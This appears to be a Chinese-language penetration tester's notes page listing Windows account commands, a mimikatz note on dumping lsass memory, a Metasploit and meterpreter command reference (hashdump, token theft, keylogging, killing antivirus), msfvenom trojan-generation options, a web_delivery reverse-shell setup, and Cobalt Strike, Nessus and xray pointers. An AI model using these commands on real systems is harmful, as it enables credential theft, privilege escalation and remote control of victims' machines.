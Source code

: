 ```yaml
---
title: 渗透笔记
id: 渗透笔记
---
```


<!-- more -->

# windows-cmd

打开任务管理器：`taskmgr`



切换用户：`runas /user:administrator cmd.exe`



查看系统所有用户信息： `net user`

显示指定用户的信息：`net user john`

创建普通用户/修改已有用户密码：`net user test111 test113! /add`

加入指定帐户为管理员组成员：`net localgroup administrators usrname /add`
(将帐户name加入到管理员组中，即把name添加为管理员)



删除指定帐户为管理员组成员：`net localgroup administrators usrname /del`
(在管理员组中删除name帐户，即name不是管理组成员)


删除指定用户：`net user usrname /delete`

启用指定用户：`net user usrname /Active:yes`

停用指定用户：`net user usrname /Active:no`  



# mimikatz

[第01课：Mimikatz 获取系统密码攻防研究 (gitbook.cn)](https://gitbook.cn/gitchat/column/5afbf24f753289354cab7983/topic/5afbf818753289354cab7e3c)

https://xz.aliyun.com/t/8601

mimikaz报错

```
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

除了用procdump，还可以在任务管理器直接导出isass.exe，右键转储文件



# msf

```
msfocole
```

常用：

```
show exploits	- 可用的渗透攻击程序代码
	 auxiliary	- 所有可用的辅助攻击工具 
	 payloads	- 该模块适用的所有载荷代码 
	 targets	- 该模块适用的攻击目标类型
	 options	- 该模块所有可用选项
	 
back（返回）：          从目前的情况下向后移动
cd：                   改变当前的工作目录
color：                切换颜色
connect（远程连接）：    与主机通信
exit （退出命令行）：    退出控制台

help（帮助） ：             帮助菜单
info（获取模块信息）：       关于一个或多个模块显示信息
irb：                     进入irb脚本模式
jobs：                    显示和管理职位
kill（结束进程）：          结束一个进程
load （加载）：            加载一个框架插件
loadpath ：               搜索和负载从一个路径模块
makerc：                  保存自开始进入到一个文件中的命令
popm：                    弹出最新的模块从堆栈中并使其活跃
previous ：               将以前加载模块作为当前模块
pushm ：                  推主动或模块列表在模块栈
quit （退出控制台）：       退出控制台
reload_all Reloads ：     从所有定义的模块路径的所有模块
rename_job ：             重命名工作
resource ：               运行存储命令在文件
route ：                  通过会话路由流量
save：                    将数据存储主动
search（搜索exp等模块关键字）： 搜索模块的名称和说明
sessions（会话功能）：      转储会话列表和显示有关会话的信息

set （设置参数）：              设置一个特定的上下文变量的值
setg（全局设置参数）：           设置一个全局变量的值
show （展示参数模块）：          给定类型的显示模块或所有模块
spool ：                      写控制台输出到一个文件以及屏幕
threads ：                    查看和操作后台线程
unload （卸载某个插件）：        卸载一个框架插件
unset （删除某个设置参数）：      取消设置一个或多个特定的上下文变量
unsetg （取消全局某个设置参数）：  取消设置一个或多个全局变量的
use （使用某个模块）：           选择按名称模块
version（查看版本信息）：        显示的框架和控制台库版本号

background ：         进程隐藏至后台
Sysinfo ：            系统平台信息
screenshot ：         屏幕截取
shell ：              命令行shell (exit退出)
ls ：                 查看文件目录列表
rm ：                 删除文件 
cat :                 查看目标文件
getwd :               获取目标机当前工作目录,getlwd本地当前工作工作目录
edit （编辑）：         编辑与$ VISUAL或$ EDITOR当前模块的

download C:\\Users\\123\\Desktop\\1.txt 1.txt ：    下载文件
upload /var/www/lcx.exe lcx.exe   ：                上传文件
search -d c:  -f *.doc  ：               搜索文件
execute -f  cmd.exe -i   ：              执行程序/命令 
ps  ：                                   查看进程
run post/windows/capture/keylog_recorder ：          键盘记录
getuid  ：                               查看当前用户权限
use priv  ：                             加载特权模块
getsystem   ：                           提升到SYSTEM权限
hashdump  ：                             导出密码散列
steal_token <PID>  ：                    窃取令牌
rev2self  ：                             恢复原来的令牌 
migrate pid  ：                          迁移进程
run killav  ：                           关闭杀毒软件 
run getgui-e                             启用远程桌面
portfwd add -l 1234 -p 3389 -r <目标IP>  ： 端口转发
run get_local_subnets  ：                获取内网网段信息
run autoroute -s <内网网段>  ：           创建自动路由
run autoroute -p  ：                     查看自动路由表
```

`msfvenom`生成木马

```
-p        指定要使用的 msf 的 payload,也可以使用自定义 payload。
-l        列出所有可用的所有可用资源. 模块类型包括: payloads, encoders, nops等。
-n        为 payload 预先指定一个 NOP 滑动长度（一切为了绕过防火墙与免杀）。
-f        指定 payload 输出的文件类型,--help-formats,可查看支持的所有输出格式(默认的输出格式是 raw,直接输出 payload 的字符，含乱码之类)。
-e        指定要使用编码器。
-a        指定 payload 的目标架构,如 windows 系统的 x64，x86。
--platform        有效载荷的平台，如 windows 系统等。
-s        设定有效攻击荷载的最大长度，简单说就是生成的后门的字节数。
-b        指定坏字符,比如空字符截断问题等，导致后门无法运行。
-i        指定编码的次数,如果使用编码器。
-c        指定一个附加的 win32 shellcode 文件指定一个自定义的可执行文件作为模板。
-x        使用一个自定义可执行程序模板,并将 payload 嵌入其中
-k        当模板被执行时,payload 自动分离并注入到新的进程中,一般和-x 选项一并使用。
-o        指定创建好的 payload 的存放位置
-v        指定一个自定义的变量，以确定输出格式
```

webshell连接

```
search web_delivery
set target 1（show targets）
set lhost
set lport
set payload php/meterpreter/reverse_tcp （payload要和targets匹配）
run
```



[MSF渗透常用操作指南 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1432/)

[Metasploit之正反向payload生成与实战 | C0cho's blog](https://choge.top/2019/10/22/msf之正反向payload生成与实战/)

[MSF之命令笔记篇 | sh1yan'blog](http://sh1yan.top/2019/07/28/MSF-Command-Notes/)

[MSF后渗透利用整理|MSF命令大全 | Mr.Wu](https://www.mrwu.red/web/2674.html)





# cs

[全网最全的Cobalt Strike使用教程系列-基础篇 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/290134.html)

[全网最全的Cobalt Strike使用教程-进阶篇 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/290333.html)







# nessus



```
net start "Tenable Nessus"
net stop "Tenable Nessus"
```





# xray

```
.\xray_windows_amd64.exe webscan --listen 127.0.0.1:7777 --html-output xray-testphp.html
```

